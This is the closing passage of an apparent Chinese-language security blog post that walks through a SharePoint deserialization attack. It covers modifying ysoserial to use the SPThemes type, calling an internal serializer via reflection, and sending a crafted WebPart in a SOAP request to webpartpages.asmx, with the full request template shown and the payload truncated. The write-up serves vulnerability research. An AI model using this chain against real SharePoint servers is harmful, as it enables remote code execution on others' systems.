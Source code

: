 ```
  {
   InitClass();
   GetSerializationData(info, context);
  }
        ...
}
```  
  
SPThemes  
类实现了 DataSet  
并使用其序列化构造函数。我们可以直接使用 ysoserial 工具，修改 DataSetMarshal  
，将类型从 DataSet  
改为 Microsoft.SharePoint.ApplicationPages.SPThemes  
，然后创建一个无参构造函数并手动设置 _fakeTable  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCNXHBHVHTf61W4kIgYrbTAvCWWPowUia3k4ciaZU6ercnxams4CP9lhgqWMa7ibbf2GvnM613HMc8rNw/640?wx_fmt=png&from=appmsg "")  
  
由于 SPObjectStateFormatter  
是内部类，我们可以通过反射调用其 Serialize()  
方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCNXHBHVHTf61W4kIgYrbTAv7icsA6jjn6ICIop7ho6O7et30iaZW4CYA9soRWiaM0lpyj5IA3nltzn5g/640?wx_fmt=png&from=appmsg "")  
  
最后，使用 WebPartPages  
服务的端点来解析控件，或者创建一个包含该 WebPart 的页面。最终的 WebPart 将类似于以下结构：  
```
<%@ Register Tagprefix="WebPartPages" Namespace=" Microsoft.SharePoint.WebPartPages" Assembly="Microsoft.SharePoint, Version=15.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c" %>

<WebPartPages:XmlWebPart ID="SPWebPartManager" runat="Server">
    <WebPart
        xmlns="http://schemas.microsoft.com/WebPart/v2">
        <AttachedPropertiesShared>/wEWABANANA...</AttachedPropertiesShared>
    </WebPart>
</WebPartPages:XmlWebPart>
```  
  
请求：  
```
POST /_vti_bin/webpartpages.asmx HTTP/1.1
Host: sharepoint
Content-Type: text/xml; charset=utf-8
Content-Length: 9661
SOAPAction: http://microsoft.com/sharepoint/webpartpages/ConvertWebPartFormat

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><ConvertWebPartFormat xmlns="http://microsoft.com/sharepoint/webpartpages"><inputFormat><![CDATA[
<%@ Register Tagprefix="WebPartPages" Namespace=" Microsoft.SharePoint.WebPartPages" Assembly="Microsoft.SharePoint, Version=15.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c" %>

<WebPartPages:XmlWebPart ID="SPWebPartManager" runat="Server">
    <WebPart
        xmlns="http://schemas.microsoft.com/WebPart/v2">
        <AttachedPropertiesShared>/wEWABANANA...</AttachedPropertiesShared>
    </WebPart>
</WebPartPages:XmlWebPart>

]]></inputFormat></ConvertWebPartFormat></soap:Body></soap:Envelope>
```  
  
测试版本：15.0.5145.1000  
  
以上就是本篇博客的全部内容。感谢您的阅读！  
  
